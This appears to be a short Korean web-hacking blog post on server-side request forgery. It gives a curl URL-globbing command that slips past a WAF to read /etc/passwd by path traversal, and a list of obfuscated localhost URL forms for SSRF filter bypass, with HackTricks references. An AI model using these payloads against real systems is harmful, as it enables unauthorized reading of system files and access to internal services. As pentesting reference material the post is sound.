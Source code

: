 ```yaml
---
title: SSRF(Server Side Request Forgery)
author: janger
date: 2023-10-07
category: Web Hacking
layout: post
---
```


## Curl URL globbing - WAF bypass
dotdot(..)과 %가 필터링 되는 경우 URL globbing을 사용하여 우회가 가능하다. 
~~~ bash
curl http://target.com/{.}{.}/{.}{.}/etc/passwd
~~~


## URL Format Bypass
~~~ 
http:@0/
http@0/
http://①②⑦.⓪.⓪.①/
http://127。0。0。1
~~~

## Reference

[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)

[https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass)

[https://everything.curl.dev/cmdline/globbing](https://everything.curl.dev/cmdline/globbing)
